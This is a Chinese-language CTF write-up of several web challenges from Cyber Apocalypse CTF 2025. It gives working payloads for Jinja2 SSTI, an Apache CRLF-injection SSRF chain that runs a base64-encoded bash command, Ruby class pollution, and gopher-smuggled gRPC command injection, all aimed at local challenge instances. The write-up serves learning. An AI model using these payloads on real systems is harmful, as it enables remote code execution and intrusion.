# Cyber Apocalypse CTF 2025  部分web wp-先知社区

> **来源**: https://xz.aliyun.com/news/17500  
> **文章ID**: 17500

---

总的来说前面的题太简单了，后面的有点挑战性

# Trial by Fire

进入是这个页面  
  
附件中看到这个路由

```
@web.route('/battle-report', methods=['POST'])
def battle_report():
    stats = {
        . . .
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'turns_survived': request.form.get('turns_survived', "0")
        . . .
    }

    REPORT_TEMPLATE = f"""
        . . .
        <p class="title">Battle Statistics</p>
        <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
        . . .
        <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
        . . .
    """

    return render_template_string(REPORT_TEMPLATE)
```

很简单，只是一个jinja2的ssti  
exp:

```
import requests

BASE_URL = "http://127.0.0.1:1337"

payload = "{{ url_for.__globals__.sys.modules.os.popen('cat flag.txt').read() }}"

response = requests.post(f"{BASE_URL}/battle-report", data={
    "damage_dealt": payload
})

print(response.text) # <p>🗡️ Damage Dealt: <span class="nes-text is-success">49</span></p>
```

# Whispers of the Moonbeam

进来后是类似于终端的东西  
  
拥有这些命令  


## 非预期

利用的gossip命令  
  
看到目录下有flag.txt，直接访问



## 预期解

observe可以看到进程其实也就相当于执行了linux命令，command框下也提示`; for command injection`  
  
所以直接  
  
一样的效果

# Cyber Attack

这个题目挺好玩的，是个关于Apache的洞，后续我会写一个专题专门写他  
  
进来是两个attack按钮。  
attack-domain.py

```
#!/usr/bin/env python3

import cgi
import os
import re

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

attack.ip

```
#!/usr/bin/env python3

import cgi
import os
from ipaddress import ip_address

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()

```

可以看到在attack-domain中正则了一个域名，然后在attack-ip中则需要用ip\_address来check ip形式，然后注意一下题目中给的apache配置

```
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```

也就是只有本地用户才可以去调用attack-ip这个路由，并且在index.php中也做了限制  
  
然后这里要用到一个apache的一个CRLF injection来完成ssrf攻击  
像这样子

```
handler = 'server-status'

r =  get(f'{url}/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:{handler}%0d%0a%0d%0a')

print(r.text)
```

  
所以最后的playload

```
from requests import get
url = 'http://localhost:1337'

def quote(s):
    return ''.join([f'%{hex(ord(c))[2:]}' for c in s])
def dquote(s):
    return quote(quote(s))

from base64 import b64encode
payload = b64encode(b'cat /flag* > /var/www/html/flag.txt').decode()

handler = f'proxy:http://127.0.0.1/cgi-bin/attack-ip?name=asfs{quote('&')}target=::1{dquote(f"%; echo "{payload}" | base64 -d | bash")}{quote('&')}dummy='

get(f'{url}/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:{handler}%0d%0a%0d%0a')

print(get(f'{url}/flag.txt').text)
```



# Eldoria Realms

出了一个ruby的原型链污染+打GRPC injection然后rce，bao师傅说铁三出了一个ruby是0解....你放在中等难度吗  
  
其中有几个路由：

* player:就是一个用户的信息，并且有merge的方法去update信息
* Quest：其中包含了几个问题和他的奖金  
  
* store：就是一个商店  
  
* fellowship：保存了几个用户信息  
  
* livedata：感觉像是更新信息  
  
* Adnvanced：可以召唤Helios和connect to realm的功能  
  

## 污染our\_url

然后我们来看到源代码:

```
class Adventurer
    @@realm_url = "http://eldoria-realm.htb"

    attr_accessor :name, :age, :attributes

    def self.realm_url
        @@realm_url
    end

    def initialize(name:, age:, attributes:)
        @name = name
        @age = age
        @attributes = attributes
    end

    def merge_with(additional)
        recursive_merge(self, additional)
    end

    private

    def recursive_merge(original, additional, current_obj = original)
    additional.each do |key, value|
      if value.is_a?(Hash)
        if current_obj.respond_to?(key)
          next_obj = current_obj.public_send(key)
          recursive_merge(original, value, next_obj)
        else
          new_object = Object.new
          current_obj.instance_variable_set("@#{key}", new_object)
          current_obj.singleton_class.attr_accessor key
        end
      else
        current_obj.instance_variable_set("@#{key}", value)
        current_obj.singleton_class.attr_accessor key
      end
    end
    original
  end
end
```

可以看到有merge的方法，也就是这里其实是存在原型链污染的。  
然后在这个应用中可以看到merge\_with调用了recursive\_merge方法，  
并且从merge-fates路由获取用户输入的json数据作为输入

```
post "/merge-fates" do
    content_type :json
    json_input = JSON.parse(request.body.read)
    random_attributes = {
        "class" => ["Warrior", "Mage", "Rogue", "Cleric"].sample,
        "guild" => ["The Unbound", "Order of the Phoenix", "The Fallen", "Guardians of the Realm"].sample,
        "location" => {
            "realm" => "Eldoria",
            "zone" => ["Twilight Fields", "Shadow Woods", "Crystal Caverns", "Flaming Peaks"].sample
        },
        "inventory" => []
    }

    $player = Player.new(
        name: "Valiant Hero",
        age: 21,
        attributes: random_attributes
    )

    $player.merge_with(json_input)
    { 
        status: "Fates merged", 
        player: { 
            name: $player.name, 
            age: $player.age, 
            attributes: $player.attributes 
        } 
    }.to_json
end
```

所以我们可以污染其中的our\_url属性从而更改其connect

```
{
  "class": {
    "superclass": {
      "realm_url": "our_url"
    }
  }
}
```

## 利用SSRF请求走私GRPC packet

污染了our\_url后可以看到connect-realm路由，可以看到调用了curl命令

```
get "/connect-realm" do
    content_type :json
    if Adventurer.respond_to?(:realm_url)
        realm_url = Adventurer.realm_url
        begin
            uri = URI.parse(realm_url)
            stdout, stderr, status = Open3.capture3("curl", "-o", "/dev/null", "-w", "%{http_code}", uri)
            { status: "HTTP request made", realm_url: realm_url, response_body: stdout }.to_json
        rescue URI::InvalidURIError => e
            { status: "Invalid URL: #{e.message}", realm_url: realm_url }.to_json
        end
    else
        { status: "Failed to access realm URL" }.to_json
    end
end
```

然后看到dockerfile

```
# Install curl with shared library support
RUN wget https://curl.haxx.se/download/curl-7.70.0.tar.gz && \
    tar xfz curl-7.70.0.tar.gz && \
    cd curl-7.70.0/ && \
    ./configure --with-ssl --enable-shared && \
    make -j16 && \
    make install && \
    ldconfig
```

可以看到curl版本为7.7,0.0，便可以利用gopher协议进行攻击，我们就可以利用它来攻击GRPC。端口为：`127.0.0.1:50051`,也就是污染前面的our\_url然后调用connect之后将gopher的数据一起带过来就可以trigger curl这个地方了，接着我们就利用app.go中的命令进行注入即可

## go命令注入

```
func (s *server) CheckHealth(ctx context.Context, req *pb.HealthCheckRequest) (*pb.HealthCheckResponse, error) {
    ip := req.Ip
    port := req.Port

    if ip == "" {
        ip = s.ip
    }
    if port == "" {
        port = s.port
    }

    err := healthCheck(ip, port)
    if err != nil {
        return &pb.HealthCheckResponse{Status: "unhealthy"}, nil
    }
    return &pb.HealthCheckResponse{Status: "healthy"}, nil
}

func healthCheck(ip string, port string) error {
    cmd := exec.Command("sh", "-c", "nc -zv "+ip+" "+port)
    output, err := cmd.CombinedOutput()
    if err != nil {
        log.Printf("Health check failed: %v, output: %s", err, output)
        return fmt.Errorf("health check failed: %v", err)
    }

    log.Printf("Health check succeeded: output: %s", output)
    return nil
}
```

显而易见`cmd := exec.Command("sh", "-c", "nc -zv "+ip+" "+port)`这里就是最后执行命令的地方，因为过滤不严格直接做了拼接，所以我们可以这样子赋值port

```
1337; cp /flag* /app/eldoria_api/public/flag.txt
```

所以最后解题  
先污染

```
{
"class": {
    "superclass": {
    "realm_url": "gopher://127.0.0.1:50051/_%50%52%49%20%2a%20%48%54%54%50%2f%32%2e%30%0d%0a%0d%0a%53%4d%0d%0a%0d%0a%00%00%00%04%01%00%00%00%00%00%00%7c%01%04%00%00%00%01%83%86%45%98%62%83%77%2a%f9%cd%dc%b7%c6%91%ee%2d%9d%cc%42%b1%7a%72%93%ae%32%8e%84%cf%41%8b%a0%e4%1d%13%9d%09%b8%d8%00%d8%7f%5f%8b%1d%75%d0%62%0d%26%3d%4c%4d%65%64%7a%a5%9a%ca%c9%6d%94%31%21%7b%ad%1d%a6%a2%45%3f%aa%8e%a7%72%d8%83%1e%a5%10%54%ff%6a%4d%65%64%5a%63%b0%15%db%75%70%7f%40%02%74%65%86%4d%83%35%05%b1%1f%40%8e%9a%ca%c8%b0%c8%42%d6%95%8b%51%0f%21%aa%9b%83%9b%d9%ab%00%00%42%00%01%00%00%00%01%00%00%00%00%3d%0a%09%31%32%37%2e%30%2e%30%2e%31%12%30%31%33%33%37%3b%20%63%70%20%2f%66%6c%61%67%2a%20%2f%61%70%70%2f%65%6c%64%6f%72%69%61%5f%61%70%69%2f%70%75%62%6c%69%63%2f%66%6c%61%67%2e%74%78%74"
    }
}
}
```

然后connect一下  
  
最后访问一下/flag.txt即可
